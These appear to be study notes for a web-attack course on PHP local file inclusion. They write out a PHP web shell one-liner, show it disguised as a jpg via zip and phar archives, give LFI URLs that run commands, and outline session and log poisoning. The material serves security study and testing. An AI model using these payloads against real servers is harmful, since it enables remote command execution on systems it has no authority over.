 #### ZIP Upload
Reliable and utilises zip wrapper
```shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

```url
http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

#### Phar Upload
Create the following script into shell.php:
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

Can be compiled into a `phar` file that when called creates a web shell in shell.txt sub file.
Compile it as a `phar` file and renamed to `shell.jpg`
```shell
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

```url
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```
### Log Poisoning

* Writing PHP code in a field gets logged into a log file.
* Need to have write privileges of log file.
#### PHP Session Poisoning 
* PHPSESSID contains user-related data on the back end
* They are saved in:
	* Linux : `/var/lib/php/sessions/`
	* Windows: `C:\Windows\Temp`
* Name of the file matches PHPSESSID cookie with the `sess_` prefix. 
1. Examine your PHPSESSID cookie. 
2. Use LFI to view `/var/lib/php/sessions/sess_<cookie>`

* If you specify the setting you have control off the variable, else you do not.
* Attempt to end the value:
```url
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
```
Read the value
```url
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
```
Add a command to the session:
```
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
```
Ideally write a permanent web shell or rev shell from here
#### Server Log Poisoning 
Apache ad Nginx maintain various log files such as `access.log` `error.log`.
* `access.log` contains various information about all requests made to the server. Including the user agent header. 
	* As we control the user-agent we can poison it
	